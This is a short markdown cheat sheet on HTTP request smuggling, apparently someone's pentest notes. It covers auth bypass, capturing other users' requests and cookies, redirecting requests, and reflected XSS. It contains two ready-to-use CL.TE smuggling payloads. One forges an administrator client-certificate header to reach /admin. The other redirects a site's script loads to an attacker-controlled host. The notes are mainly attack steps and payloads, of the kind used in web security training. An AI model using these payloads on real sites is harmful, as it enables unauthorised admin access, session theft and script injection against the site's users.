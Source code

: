 # HTTP Smuggling
## Auth Bypass
**Smuggle request to path**
**Requires method, path, HTTP protocol**
**Append subsequent to body**

## Reflecting Backend Requests
1. Find POST request reflecting arbitrary (HTML-Encoded) request input
	- If not HTML-Encoded, the request may be cut off by the first `&` delimeter
2. Smuggle request where last input reflects next request
3. Choose `Content-Length` to be small enough value to get everything of interest but not time out server
### Applications
#### Bypassing CN Certificates
```
POST /example HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: x-www-form-urlencoded  
Content-Length: 64  
Transfer-Encoding: chunked  
  
0  
  
GET /admin HTTP/1.1  
X-SSL-CLIENT-CN: administrator  
Foo: x
```

#### Reflecting Requests (Cookies)
**Basically same thing, but find some way to store results in application**

#### Redirecting Requests
```
POST / HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 54  
Transfer-Encoding: chunked  
  
0  
  
GET /home HTTP/1.1  
Host: attacker-website.com  
Foo: X
```
v
```
GET /home HTTP/1.1  
Host: attacker-website.com  
Foo: XGET /scripts/include.js HTTP/1.1  
Host: vulnerable-website.com
```

#### Reflected XSS
**Find some reflected information, and stuff the other request into the body/header**